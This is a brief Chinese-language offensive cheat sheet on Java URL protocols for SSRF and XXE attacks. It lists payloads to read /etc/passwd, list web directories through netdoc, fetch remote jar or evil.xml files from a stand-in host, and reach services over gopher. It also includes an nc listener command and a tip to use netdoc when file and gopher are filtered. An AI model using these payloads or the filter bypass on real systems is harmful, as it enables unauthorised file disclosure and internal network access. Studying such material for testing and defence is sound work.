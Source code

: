 ## java协议
JAVA默认提供了对file,ftp,gopher,http,https,jar,mailto,netdoc协议的支持 。
file(ssrf、xxe)：
file:///etc/passwd

netdoc(ssrf、xxe)：
知道文件名和文件路径，很简单我们只要知道文件路径然后利用我们的 netdoc 去列目录就能知道文件名了
netdoc:///var/www/html/
不常见

ps:过滤了file、gopher可使用netdoc代替

jar(ssrf、xxe):
jar:http://localhost:9999/jar.zip!/1.php

http(ssrf、xxe):
http://url/file.ext
http://example.com/evil.xml

gopher(ssrf、xxe):
gopher://ip:port/xxx

监听：nc -vv -l -p port
